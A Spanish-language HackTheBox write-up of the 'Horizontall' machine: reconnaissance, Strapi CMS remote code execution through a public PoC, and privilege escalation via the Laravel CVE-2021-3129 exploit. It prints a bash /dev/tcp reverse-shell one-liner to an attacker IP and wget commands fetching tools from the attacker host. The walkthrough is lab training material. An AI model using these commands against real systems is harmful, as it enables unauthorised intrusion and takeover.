 ```yaml
---
title: Horizontall | Linux
published: 2025-02-26
image: "./logo.png"
tags: [Easy, Linux, Information Leakage, Strapi CMS, Laravel, eJPT, eWPT]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- Information Leakage
- Port Forwarding
- Strapi CMS Exploitation
- Laravel Exploitation

### Preparación

- eWPT
- eJPT

***

## Reconocimiento

Comenzaremos haciendo un escaneo a los puertos abiertos de la máquina y sus respectivos servicios y versiones.

```
sudo nmap -T4 --min-rate 1000 -p- -sCV -oN nmap_report 10.10.11.105
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FuVQ6oH5EAxdfPG4Rr9se%2Fimg1.png?alt=media&#x26;token=cb865253-994a-43c0-ac41-6fb0b5ae0703" alt=""><figcaption></figcaption></figure>

### HTTP

Podemos ver el puerto **SSH** y **HTTP** abiertos, empezaremos por el segundo. Al abrir la web podemos ver que usa un dominio **horizontall.htb**, por lo que lo añadimos al `/etc/hosts`.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Ffg2oRhZUBeTGFq5aKMzl%2Fimg2.png?alt=media&#x26;token=ae123aa6-5262-452c-8d6c-913f64410e18" alt=""><figcaption></figcaption></figure>

### Gobuster

A primera vista parece una web normal. Por lo que comenzaremos a ver directorios/ficheros ocultos con **gobuster**_._


```
gobuster dir -u http://horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150
```


<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FtNGw6PG7hmxPKdT6uSRN%2Fimg3.png?alt=media&#x26;token=1566f1b7-6d75-422d-877e-c3a75727c31f" alt=""><figcaption></figcaption></figure>

## Ffuf (Virtual Hosting)

La verdad que no parece haber nada interesante. Como vimos antes corre un **nginx**.  Se puede estar usando **Virtual Hosting** para tener varias webs en la misma máquina, por lo que seguiremos el mismo procedimiento de reconocimiento.


```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://horizontall.htb -H "Host: FUZZ.horizontall.htb" -mc 200
```


<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FPIzVYAEkFQNh1N0bcER4%2Fimg4.png?alt=media&#x26;token=1b1e7c0e-0c90-459f-b0a8-278b5b15e306" alt=""><figcaption></figcaption></figure>

Podemos ver el dominio api-prod, por lo que lo añadimos al /etc/hosts también. Y volveremos a hacer el mismo reconocimiento.


```
gobuster dir -u http://api-prod.horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150
```


<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FmXlafoKabxScWfKSldO4%2Fimg5.png?alt=media&#x26;token=8807c335-603d-4412-9cfa-a1ad8b6ca284" alt=""><figcaption></figcaption></figure>

Probaremos a entrar primero a `/reviews` a ver que econtrarmos:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F1fYjNmjGl669tBiBiOiN%2Fimg6.png?alt=media&#x26;token=d188a6aa-fc36-48be-81b2-0c6bdccf4273" alt=""><figcaption></figcaption></figure>

Parecen ser reseñas de usuarios. Buscaremos en `/admin`:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FIpKEfgCbSPcrrXiREj09%2Fimg7.png?alt=media&#x26;token=724f0a44-b15b-4619-ab40-1d351bb59bc0" alt=""><figcaption></figcaption></figure>

### Strapi

Vemos que es un panel de login de administración de **strapi**. Investigando si vas a la ruta `/admin/init` te debería dar la versión como podemos ver:

```
3.0.0-beta.17.4
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FXsSRmoeOGcsdcHi8JknR%2Fimg8.png?alt=media&#x26;token=9e834f49-75d1-4904-8a0a-7df5259d12d5" alt=""><figcaption></figcaption></figure>

## Explotación

Buscando vulnerabilidades podemos encontrar una que incluso tiene un **PoC** ([Enlace](https://www.exploit-db.com/exploits/50239)). Copiamos el código en python y lo ejecutamos apuntando a la máquina víctima:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fr86UCR3r848B6IiZnNK4%2Fimg9.png?alt=media&#x26;token=31a8cf88-4079-4979-b2be-028e850b18b7" alt=""><figcaption></figcaption></figure>

Como podemos ver ya tenemos **RCE** por lo que vamos a intentar crear una reverse shell. Nos pondremos en escucha con netcat en el puerto 6969 y ejecutaremos la shell:

```
nc -lvnp 6969
```

```
bash -c 'bash -i >& /dev/tcp/10.10.14.16/6969 0>&1'
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FEkx2vKcP0MKDU7mUiIPZ%2Fimg10.png?alt=media&#x26;token=4a6044a8-3e18-4469-963e-55e77bae5075" alt=""><figcaption></figcaption></figure>

Y ya tendríamos una shell con la máquina víctima. Al mirar en el escritorio del usuario developer podemos ver la user flag:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FChPiSJeqfpUYgW1pAVCN%2Fimg11.png?alt=media&#x26;token=abc77c13-623c-4abe-9956-bcceb095e35e" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios

Ahora tocaría la elevación para conseguir la root flag. Usaremos **linpeas.sh** para descubrir la máxima información posible por lo que descargaremos la release y la subiremos al servidor de python para poder descargarlo desde la máquina víctima:

```
python3 -m http.server
```

```
wget http://10.10.14.16:8000/linpeas.sh
```

```
chmod +x linpeas.sh
```

Al ejecutarlo podemos ver algo raro y es que internamente hay 2 puertos abiertos:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FDjnNTQsRBwevQuumEWPx%2Fimg12.png?alt=media&#x26;token=c875a779-8450-4a30-ada1-203a5a34bbc6" alt=""><figcaption></figcaption></figure>

El **8000** y el **1337**, si hacemos un curl del 8000 vemos lo siguiente:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FFgvh1bKbol3FYX3tI4uv%2Fimg13.png?alt=media&#x26;token=29590719-13cd-4351-a262-1e34218aeffe" alt=""><figcaption></figcaption></figure>

Vemos que usa la versión 8 de **Laravel** un framework de **PHP** por lo que podríamos buscar si tiene alguna vulnerabilidad.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fx9BCWtS1SBG0gG6XFhYL%2Fimg14.png?alt=media&#x26;token=facc04af-857b-4ca7-bb58-bc6d9f1a6a8a" alt=""><figcaption></figcaption></figure>

Hay un **RCE** para esa versión, buscando he encontrado un [exploit](https://github.com/nth347/CVE-2021-3129_exploit) para este CVE, pero deberemos cambiar un poco el exploit ya que no puede hacer un git clone por el DNS.

```
os.system("wget http://10.10.14.16:8000/phpggc.tar")
os.system("tar -xvf phpggc.tar")
```

Cambiaremos esas 2 líneas por la parte del git clone. Lo descargamos desde la máquina después de haberlo comprimido e iniciado el servidor web en local. Ejecutamos el **exploit.py**:

```
python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 "cat /root/root.txt"
```

Y así obtendremos la root flag.

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/374)

---